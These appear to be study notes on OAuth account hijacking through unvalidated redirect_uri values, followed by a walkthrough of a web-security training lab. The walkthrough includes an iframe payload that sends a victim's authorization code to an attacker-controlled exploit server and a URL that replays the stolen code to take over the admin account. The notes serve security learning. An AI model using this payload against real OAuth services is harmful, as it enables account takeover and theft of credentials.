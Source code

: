 Depending on the grant type:
- either a code or token is sent via the victim's browser to the `/callback` endpoint specified in the `redirect_uri` parameter of the authorization request
- If the OAuth service fails to validate this URI properly:
	- an attacker may be able to construct a CSRF-like attack
	- tricking the victim's browser into initiating an OAuth flow
	- that will send the code or token to an attacker-controlled `redirect_uri`.

In the case of the authorization code flow:
- an attacker can potentially steal the victim's code -->  before it is used

They can then:
- send this code to the client application's legitimate `/callback` endpoint (the original `redirect_uri`) to get access to the user's account

In this scenario, an attacker:
- does not even need to know the client secret or the resulting access token. 
- As long as the victim has a valid session with the OAuth service:
	- the client app will simply complete the code/token exchange on the attacker's behalf before logging them in to the victim's account.

Note that using `state` or `nonce` protection:
- does not necessarily prevent these attacks 
- because an attacker can generate new values from their own browser

##### OAuth account hijacking via redirect_uri
1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Log out and then log back in again. 
	1. Observe that you are logged in instantly this time. 
	2. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
3. In Burp, study the OAuth flow in the proxy history and identify the **most recent** authorization request. 
	1. This should start with `GET /auth?client_id=[...]`. 
	2. Notice that when this request is sent, you are immediately redirected to the `redirect_uri` along with the authorization code in the query string. 
	3. Send this authorization request to Burp Repeater.
4. In Burp Repeater, observe that you can submit any arbitrary value as the `redirect_uri` without encountering an error. 
	1. Notice that your input is used to generate the redirect in the response.
5. Change the `redirect_uri` to point to the exploit server, then send the request and follow the redirect. 
	1. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. 
	2. This confirms that you can leak authorization codes to an external domain.
6. Go back to the exploit server and create the following `iframe` at `/exploit`:
    `<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`
    ![[Pasted image 20240916142024.png]]
7. Store the exploit and click "View exploit". 
8. Check that your `iframe` loads and then check the exploit server's access log. 
9. If everything is working correctly, you should see another request with a leaked code.
10. Deliver the exploit to the victim, then go back to the access log and copy the victim's code from the resulting request.
11. Log out of the blog website and then use the stolen code to navigate to:
    `https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE`
12. The rest of the OAuth flow will be completed automatically and you will be logged in as the admin user. Open the admin panel and delete `carlos` to solve the lab
